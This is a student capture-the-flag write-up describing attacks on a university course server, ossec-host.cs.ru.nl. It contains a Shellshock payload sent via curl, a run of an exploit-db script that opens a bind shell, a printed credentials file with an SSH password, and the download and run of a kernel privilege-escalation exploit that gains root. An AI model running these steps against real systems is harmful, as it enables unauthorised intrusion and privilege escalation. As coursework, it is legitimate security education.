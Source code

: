 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.

If we look on Exploit DB for the kernel version, we find the following exploit: <https://www.exploit-db.com/download/37292.c>, which can be used to get root privileges.

To run the exploit, we simply log in via SSH, download the exploit code, compile it, and finally run it, then we are root:

```
# On my PC
$ ssh bob@ossec-host.cs.ru.nl
bob@ossec-host.cs.ru.nl's password:
# Now we are on the server
$ cd /tmp/
$ curl https://www.exploit-db.com/download/37292.c > exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5119  100  5119    0     0   2535      0  0:00:02  0:00:02 --:--:--  2536
$ gcc -o exploit exploit.c
$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(bob)
```

The second flag is in the `/root` directory and buried in an 25 megabyte file, according to the instructions. We found the file, and copied it to out local machine using `scp`.

## Flag 1

The first flag was decoded with the TOPKEK cipher, in which `KEK` stands for 0, and `TOP` stands for 1, followed by $n$ `!`s which indicate how often the digit must be repeated. We wrote a little script to translate to binary:

\begin{lstlisting}[
	breaklines = true,
	literate = {0}{{0\allowbreak}}{1}
	{0}{{0\allowbreak}}{1}
]
$ ./decode_topkek.sh flag1
01010111011101010110001001100010011000010010000001101100011101010110001001100010011000010010000001100100011101010110001000100000011001000111010101100010001000000010110100100000010100100110100101100011011010110010000001010011011000010110111001100011011010000110010101111010
\end{lstlisting}

When translated to ASCII, the flag reads `Wubba lubba dub dub - Rick Sanchez`.

## Flag 2

We were able to retrieve the flag, but we could not extract the payload.

Looking at the file it consists of random characters, form which we have to extract the payload somehow. We tried filtering for words that consists solely of letters, and after that yielded nothing added the restriction that the words must be at least 5 characters long:

```
$ grep -oP '\b[A-Za-z]+\b' flag2
f
f
VC
fzshz
c
mi
w
y
XBj
Wxb
# lots of output omitted
grep -oP '\b[A-Za-z]{5,}\b' flag2
fzshz
FJsun
pAqdm
wJcjm
pgXucO
fcZaf
ngoea
hhnZY
xhZBsrep
Cajhst
# lots of output omitted
```

Neither of these methods revealed the hidden message in the flag.
